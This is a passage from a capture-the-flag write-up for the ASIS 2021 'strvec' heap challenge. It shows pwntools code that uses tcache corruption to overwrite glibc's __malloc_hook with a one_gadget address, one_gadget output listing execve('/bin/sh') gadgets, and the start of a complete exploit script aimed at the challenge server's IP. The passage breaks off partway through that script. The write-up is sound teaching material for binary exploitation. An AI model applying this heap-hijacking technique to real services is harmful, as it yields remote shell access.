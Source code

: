 ```  
set(5, p64(heap_base + 0x10))

# Discard one chunk to get to the '__malloc_hook'. We already got one removed
by the malloc that happened when freeing the t-cache  
set(2, b'finally')  
# Overwrite '__malloc_hook' with our one_gadget location  
# We see in gdb that r15 and rdx are NULL, therefore the constraints are
fulfilled  
set(3, p64(libc.address + 0xe6c81))  # one_gadget  
```

# Pop a shell  
We can overwrite the `_malloc_hook` now, but what value would give us a shell?
A libc has the ability to invoke a program with the `system()` function. We
can hijack the control flow of this mechanism to pop us a shell. Luckily, we
do not need to figure this out by hand. There's a tool called
[one_gadget](https://github.com/david942j/one_gadget), which calculates this
address in a given libc.

When we invoke `one_gadget` on the given libc, we get this:  
```  
~/ctf/2021/asis/strvec$ one_gadget libc-2.31.so  
0xe6c7e execve("/bin/sh", r15, r12)  
constraints:  
 [r15] == NULL || r15 == NULL  
 [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)  
constraints:  
 [r15] == NULL || r15 == NULL  
 [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)  
constraints:  
 [rsi] == NULL || rsi == NULL  
 [rdx] == NULL || rdx == NULL  
```  
By setting a break point in GDB to the malloc of the main loop, we can check
which constraints are fulfilled. We see that `r15` and `rdx` are `NULL` and
therefore we can write `libc_base + 0xe6c81` to the `__malloc_hook`.

Now we can just call the `set` option in the main menu. The program will try
to allocate a chunk, but because we have overwritten `__malloc_hook`, the
one_gadget will be executed and pop us a shell.

Now we can `cat flag*` and get those sweet CTF points  
# Putting it all together  
Here's the complete exploit:  
```python  
#!/usr/bin/env python3  
from pwn import *

# Set up pwntools for the correct architecture  
context.update(arch='amd64')

exe_file = './strvec'  
custom_libc = 'libc-2.31.so'

host = '168.119.108.148'  
port = 12010

binary = ELF(exe_file)  
```